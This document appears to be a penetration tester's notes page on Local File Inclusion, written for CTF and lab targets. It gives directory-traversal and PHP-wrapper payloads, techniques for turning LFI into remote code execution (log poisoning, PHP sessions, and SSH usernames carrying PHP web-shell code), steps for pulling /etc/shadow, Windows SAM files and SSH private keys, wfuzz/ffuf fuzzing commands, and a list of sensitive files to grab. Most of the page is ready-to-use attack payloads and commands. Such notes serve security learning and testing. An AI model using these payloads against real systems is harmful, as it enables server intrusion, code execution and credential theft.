



# Testing for LFI

### LFI Local File Inclusion

#### Introduction

* An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
* LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
* 

**Example:**

```
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

* In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.

```
http://example.com/?file=../../uploads/evil.php
```

#### Directory Traversal

* Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous.
* An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.

```
http://example.com/?file=../../../../etc/passwd
```

* Testing
* If you see a webpage URL look like this:

```
/script.php?page=index.html 
```

**Basic Linux Test**

Test for:

```
http://example.thm.labs/page.php?file=/etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

#### PHP Wrappers

* PHP has a number of wrappers that can often be abused to bypass various input filters.

**PHP Expect Wrapper**

* `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default

```
php?page=expect://ls
```

**PHP Filter Wrapper**

`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.

```
http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd
http://example.thm.labs/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd 
http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
```

* First one will often fail because it attempts to execute the php code, thus converting to ROT13 or base64 will help achieve LFI

#### LFI to RCE via Log Posioning

* First find the log file path and attempt to `curl` to it

```
user@machine$ curl -A "This is testing" http://10-10-122-235.p.thmlabs.com/login.php
```

* Should see the evidence of your test in the user agent string logged
* 
* Now post php code to the log file and then visit the log file location to execute the php code you just injected

```
user@machine$ curl -A "<?php phpinfo();?>" http://10-10-122-235.p.thmlabs.com/login.php
```

**LFI to RCE via PHP Sessions**

* The LFI to RCE via PHP sessions follows the same concept of the log poisoning technique.
* PHP sessions are files within the operating system that store temporary information. After the user logs out of the web application, the PHP session information will be deleted.
* This technique requires enumeration to read the PHP configuration file first, and then we know where the PHP sessions files are.
* Then, we include a PHP code into the session and finally call the file via LFI.
* PHP stores session data in files within the system in different locations based on the configuration. The following are some of the common locations that the PHP stores in:

```
c:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

* Once the attacker finds where PHP stores the session file and can control the value of their session, the attacker can use it to a chain exploit with an LFI to gain remote command execution.
* To find the PHP session file name, PHP, by default uses the following naming scheme, `sess_<SESSION_ID>` where we can find the `SESSION_ID` using the browser and verifying cookies sent from the server.
* To find the session ID in the browser, you can open the developer tools `(SHIFT+CTRL+I)`, then the Application tab.
* From the left menu, select Cookies and select the target website.
* There is a `PHPSESSID` and the value. In my case, the value is `vc4567al6pq7usm2cufmilkm45`.
* Therefore, the file will be as `sess_vc4567al6pq7usm2cufmilkm45`. Finally, we know it is stored in `/tmp`.
* Now we can use the LFI to call the session file.

```
https://10-10-122-235.p.thmlabs.com/login.php?err=/tmp/sess_vc4567al6pq7usm2cufmilkm45
```

#### RCE via SSH

* Try to ssh into the box with a PHP code as username .

```
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

* Then include the SSH log files inside the Web Application.

```
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

#### RCE via Apache logs

* Poison the User-Agent in access logs:

```
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

* Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
* Then request the logs via the LFI and execute your command.

```
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

#### LFI to RCE via credentials files

* This method require high privileges inside the application in order to read the sensitive files.

**Windows version**

* First extract sam and system files.

```
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

* Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.

**Linux version**

* First extract /etc/shadow files.

```
http://example.com/index.php?page=../../../../../../etc/shadow
```

* Then crack the hashes inside in order to login via SSH on the machine.
* Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id\_rsa.
* If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.

### Automated LFI with Wfuzz

* Automate LFI Tests
* Download the `traversal.txt` file in this folder (from PayloadAllTheThings)
* Test with `wfuzz`

```
wfuzz -u "http://10.10.218.222/article?name=FUZZ" -w traversal.txt | grep 200
```

* `grep 200` for the `Ok` status code
* `w` -> the wordlist
*   `?name=FUZZ` -> the parameter you want to fuzz

    #### Resources
* https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfo

#### Wfuzz for LFI with a Cookie

```
wfuzz -u http://preprod-payroll.trick.htb/index.php?page=FUZZ -b PHPSESSID=lh8uclpbf9guo8ih3f6h58b2bn -w /opt/traversal.txt
```

### Requests to look out for

* 
* We notice the request with a `?` indicating possible LFI but we are not sure the paramater it wants
* Attempt to fuzz the parameter for command injection and file inclusion
* Wordlist to use:



```
/usr/share/Seclists/Discovery/Web-Content/burp-parameter-names.txt
```

* Use FFuF, or wfuzz

### FFuf Fuzzing for subdomains

```
ffuf -u http://vulnnet.thm -H "Host: FUZZ.vulnnet.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fs 5829
```

* Notice that you will get back responses with a similar character count, these are often the ones that will fail, to make the output more readable, filter on the bad character count and look for one with a unique character count.

#### Another ffuf example

* In this example we know the first part of the subdomain used by the company, however we need to bruteforce the second half of the sub domain.

```
ffuf -w /mnt/home/dasor/wordlist/directory-list-2.3-big.txt:FUZZ -u http://trick.htb/ -H 'Host: preprod-FUZZ.trick.htb' -v -fs 5480
```

#### ffuf Filter out 302 redirects when looking for subdomains

* Sometimes the web server will 302 your request when bruteforcing for subdomains.
* First create a new burp listener as such&#x20;

<figure><figcaption></figcaption></figure>

* Now you can use the below command and throw all the requests through the burp proxy to view the requests

```
ffuf -u http://localhost:8888 -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fc 302
```

* Browsing to burp, we can see all the requests and the 302 redirects.  Try and figure out what stands out, if most requests are 302's look for 404's or other status codes

<figure><figcaption></figcaption></figure>

* Apply our filter removing all 302's

<figure><figcaption></figcaption></figure>

* Below is a command to filter the status code without using a burp proxy

```
ffuf -u http://mentorquotes.htb -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fc 302
```

### Files to grab if you get LFI

```
/etc/passwd
/etc/shadow
/etc/hosts
/etc/issue
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
CMS Config Files
/etc/apache2/.htpasswd
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
/usr/local/apache2/apache2.conf
/var/www/html/.htpasswd
```

### Bypassing Path normalization

* If you make a request in the browser to:&#x20;

```
https://ip/../../../../../../../../etc/passwd
```

* And you notice when you make the request the website path goes back to:

```
https://ip/
```

* Use Burp Suite repeater to make the request manually&#x20;

```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-type: 
Content-Length: 92
Connection: close
AuthInfo: 

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
